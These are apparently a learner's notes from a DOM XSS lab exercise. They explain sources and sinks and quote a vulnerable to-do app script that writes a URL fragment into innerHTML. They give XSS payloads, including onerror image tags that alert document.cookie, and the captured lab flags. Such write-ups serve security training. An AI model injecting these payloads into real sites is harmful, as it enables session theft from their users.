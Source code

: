 # DOM XSS

While reflected XSS sends the input data to the back-end server through HTTP requests, DOM XSS is completely processed on the client-side through JavaScript.

--> JavaScript is used to change the page source through the Document Object Model (DOM).

- Check this through the Firefox Developer Tools by clicking [CTRL+I] and selecting the Network tab :
- No HTTP requests are being made.
- We see that the input parameter in the URL is using a hashtag #
- If we look at the page source by hitting [CTRL+I], we will notice that our test string is nowhere to be found

We can still view the rendered page source with the Web Inspector tool by clicking [CTRL+SHIFT+C]

## Source & Sink

Source : JavaScript object that takes the user input
Sink : function that writes the user input to a DOM Object on the page

If the Sink function does not properly sanitize the user input, it would be vulnerable to an XSS attack

Commonly used JavaScript functions to write to DOM objects are:
document.write()
DOM.innerHTML
DOM.outerHTML

Furthermore, some of the jQuery library functions that write to DOM objects are:
add()
after()
append()

- Check the source code of the application
var pos = document.URL.indexOf("task=");
var task = document.URL.substring(pos + 5, document.URL.length);
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);

## DOM attack

Inspect
script.js

$(function () {
    $("#add").click(function () {
        if ($("#task").val().length > 0) {
            window.location.href = "#task=" + $("#task").val();
            var pos = document.URL.indexOf("task=");
            var task = document.URL.substring(pos + 5, document.URL.length);
            document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);
        }
    });


This payload will failed because the innerHTML function does not allow the use of the <script>
<script>alert(document.cookie)</script>

We can use this payload :
<img src="" onerror=alert(window.origin)>

The above line creates a new HTML image object, which has a onerror attribute that can execute JavaScript code when the image is not found. 

## LAB

<img src="" onerror=alert(window.origin)>
<img src="" onerror=alert(document.cookie)>
cookie=HTB{570r3d_f0r_3v3ry0n3_70_533}; HTB{pur3ly_cl13n7_51d3}
